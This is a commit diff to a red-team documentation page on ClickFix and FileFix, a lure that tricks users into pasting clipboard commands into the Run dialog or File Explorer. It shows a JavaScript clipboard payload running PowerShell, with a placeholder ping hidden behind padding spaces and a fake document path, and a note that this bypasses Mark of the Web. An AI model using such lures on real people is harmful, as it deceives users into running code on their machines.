

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/access/clickfix.md, in a window 1280 px wide and 1074 px high. Shown: the whole window at 93% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Clickfix 2

````diff
--- a/docs/redteam/access/clickfix.md
+++ b/docs/redteam/access/clickfix.md
@@ -1,8 +1,10 @@
 # ClickFix
 
-> ClickFix is a social engineering attack that prompts users to unknowingly execute malicious code, usually through the Run Dialog (Windows Key + R).
+> ClickFix is a social engineering attack that prompts users to unknowingly execute malicious code, usually through the Run Dialog (`Windows Key + R`).
 
 ## FileFix
+
+Display a message to the user to lure him into copying and pasting a command in a shell or equivalent (File Explorer).
 
 ```ps1
 To access the file, follow these steps:
@@ -12,9 +14,16 @@ To access the file, follow these steps:
 3. Paste the file path and press Enter
 ```
 
+When the user clicks on the "COPY" button, it should set the content of his clipboard to the following.
+
 ```ps1
-navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
+navigator.clipboard.writeText("powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
 ```
+
+Here, a few tricks have been added to improve the efficiency of the payload:
+
+* Multiple spaces to hide the start of the payload
+* A comment with `#` containing a fake path to the document
 
 Executable files (e.g. .exe) executed through the File Explorer’s address bar have their Mark of The Web (MOTW) attribute removed.
 
````
